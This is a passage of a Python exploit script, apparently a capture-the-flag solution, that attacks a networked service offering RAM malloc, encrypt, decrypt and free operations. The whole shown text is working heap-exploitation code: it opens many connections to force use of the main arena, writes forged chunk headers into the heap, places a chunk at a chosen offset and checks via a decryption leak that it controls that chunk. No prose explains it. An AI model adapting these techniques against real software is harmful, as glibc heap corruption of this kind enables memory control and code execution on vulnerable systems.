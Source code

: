 ```py
        log.info("Create clients to enforce the use of main arena")
        clients = [conn() for _ in range(8*nb - 2)]

        for client in clients:
            send_1_RAM_malloc(client, 1, 0)
            Exploit.CURRENT_RAM_ID += 1

        log.info("Point to the future created chunk")
        r = conn()
        ram_id = point_at(r, 0x10410-0x666, 0x200)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x30.to_bytes(8, "little"))

        log.info("Create chunk")
        ram_chunk = conn()
        send_1_RAM_malloc(ram_chunk, 1, 0)
        ram_chunk_id = Exploit.CURRENT_RAM_ID
        Exploit.CURRENT_RAM_ID += 1

        log.info("Check if the created chunk is really controlled")
        leak = send_3_RAM_decrypt(r, ram_id)
        return leak.count(b"\x00") != 511

    def allocate_ram(self):
        log.info("Create a chunk in 0x30 fastbin")
        r = conn()
        c2 = conn()
        c1 = conn()
        ram_id = point_at(r, 0x10530, 0x60)
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x60, 
            b"\x00"*8 + 
            0x21.to_bytes(8, "little") +
            b"\x00"*0x10 + 
            0x20.to_bytes(8, "little") +
            0x31.to_bytes(8, "little") +
            b"\x00"*0x18 + 
            0x121.to_bytes(8, "little") +
            0x30.to_bytes(8, "little") +
            0x31.to_bytes(8, "little")
        )
        c1.close()
        r.close()
        c2.close()

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        log.info("Create clients to enforce the use of main arena")
        clients = [conn() for _ in range(126)]

        for client in clients:
            send_1_RAM_malloc(client, 1, 0)
            Exploit.CURRENT_RAM_ID += 1

        log.info("Point to the future created chunk")
        r = conn()
        ram_id = point_at(r, 0x10530-0x646, 0x200)
        # ram_id = point_at(r, 0x10530-0x646, 0x1)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x30.to_bytes(8, "little"))

```